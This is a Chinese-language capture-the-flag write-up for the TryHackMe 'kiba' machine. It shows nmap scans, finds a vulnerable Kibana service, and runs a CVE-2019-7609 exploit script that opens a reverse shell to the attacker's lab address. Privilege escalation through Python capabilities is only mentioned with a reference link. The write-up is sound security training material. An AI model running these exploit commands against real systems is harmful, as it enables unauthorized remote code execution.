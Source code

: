 ```yaml
---
sidebar_position: 38
tags: [Easy, Linux, Capabilities]
title: kiba
description: kiba
sidebar_label: kiba
slug: /tryhackme/38
---
```

# kiba
## 端口扫描
```bash
root@ip-10-10-24-73:~/kiba# nmap -sT -p- --min-rate 1000 10.10.110.144

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-25 08:09 BST
Nmap scan report for ip-10-10-110-144.eu-west-1.compute.internal (10.10.110.144)
Host is up (0.029s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
MAC Address: 02:B3:14:88:4C:5B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.42 seconds
root@ip-10-10-24-73:~/kiba# nmap -sTCV -p 22,80,5044,5601 --min-rate 1000 10.10.110.144

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-25 08:10 BST
Nmap scan report for ip-10-10-110-144.eu-west-1.compute.internal (10.10.110.144)
Host is up (0.00018s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (EdDSA)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequest, DNSVersionBindReq, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Fri, 25 Aug 2023 07:10:51 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Fri, 25 Aug 2023 07:10:51 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Fri, 25 Aug 2023 07:10:51 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

## 80
在 80 站点搜寻后我并没有发现任何可以利用的内容, 所以转为看  5601 端口

## 5601
访问站点发现是一个 Kibana 的程序, 并且在其一个模块中, 我发现了其版本

![20240627204839](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240627204839.png)

经过查找后我发现其利用程序:
- [CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)
- [CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

## 后渗透
### kiba
执行此脚本我们就可以获得一个 Shell
```bash
root@ip-10-10-24-73:~/kiba# python2 CVE-2019-7609-kibana-rce.py -u http://10.10.153.255:5601/ -host 10.10.24.73 -port 4444 --shell
[+] http://10.10.153.255:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.10.24.73:4444
```

![20240627204943](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240627204943.png)

我发用户的 `.bash_history` 文件有很多内容, 所以我进行查看, 在其中发现一点端倪 [python#capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

![20240627204958](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240627204958.png)

### kiba --> root
利用上面的 payload 进行提权

![20240627205041](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240627205041.png)